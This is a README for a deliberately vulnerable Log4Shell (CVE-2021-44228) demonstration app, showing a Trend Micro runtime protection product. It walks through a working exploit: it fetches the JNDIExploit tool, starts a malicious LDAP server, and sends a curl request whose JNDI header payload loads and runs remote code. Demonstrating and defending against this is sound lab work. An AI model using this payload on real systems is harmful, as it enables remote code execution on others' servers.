# Log4Shell sample vulnerable application (CVE-2021-44228), protected by Cloud One Application Security

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/), and was modified to add Trend Micro's Cloud One Application Security agent to demonstrate technique-based web application protection to this vulnerability.

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t log4shell-vulnerable-app-c1as
docker run --rm -d -p 8080:8080 --name log4shell-vulnerable-app-c1as log4shell-vulnerable-app-c1as
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip #(looks down, try https://transfer.sh/puxohI/JNDIExploit.v1.2.zip)
unzip JNDIExploit.v1.2.zip
nohup java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888 &
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Protection with Cloud One Application Security

This assumes you have (already integrated the agent to your application.) [https://cloudone.trendmicro.com/docs/application-security/install-agent/]

1. Log into Trend Micro Cloud One and navigate to Application Security.
2. Select "Group's Policy" on the left-hand menu and find your application's Group.
3. Enable "Remote Command Execution" if not already enabled.
4. Click the hamburger icon for "Configure Policy" and then click the " < INSERT RULE > " icon.
5. Input ```(?s).*``` in the "Enter a pattern to match" field and hit "Submit" and "Save Changes."
6. Double-check that "Mitigate" is selected in your "Remote Command Execution" line item.



## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://success.trendmicro.com/solution/000289940
https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html


## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
